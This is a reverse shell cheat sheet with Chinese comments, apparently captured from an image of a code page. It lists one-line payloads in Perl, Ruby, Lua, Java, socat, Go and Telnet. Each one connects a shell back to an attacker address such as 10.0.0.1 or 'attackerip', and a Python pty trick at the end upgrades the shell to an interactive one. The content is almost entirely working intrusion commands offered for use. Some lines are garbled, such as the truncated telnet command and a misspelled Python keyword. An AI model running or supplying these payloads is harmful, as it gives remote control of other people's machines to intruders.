 ```bash
# Perl反向shell
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
#
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[IPADDR]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
#NOTE: Windows only
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"[IPADDR]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
 



# Ruby反向shell
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
#不依赖于/bin/sh的反弹shell
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
#如果目标系统运行Windows反弹shell
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'



# Lua反向shell
#Linux
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
#Windows
lua5.1 -e 'local host, port = "127.0.0.1", 4444 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, 'r') local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'




# Java反弹shell
r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()



# socat反弹shell
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.79.137:5555




# Golang反弹shell
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","192.168.0.134:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go



# Telnet反弹shell
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
#获取反弹shell后，可使用python获得交互式shell
python -c'import pty; pty.spawn("/bin/bash")' python -c ''' import pty while(1):     try:         pty.spawn("/bin/bash")     except :         contiune'''
```
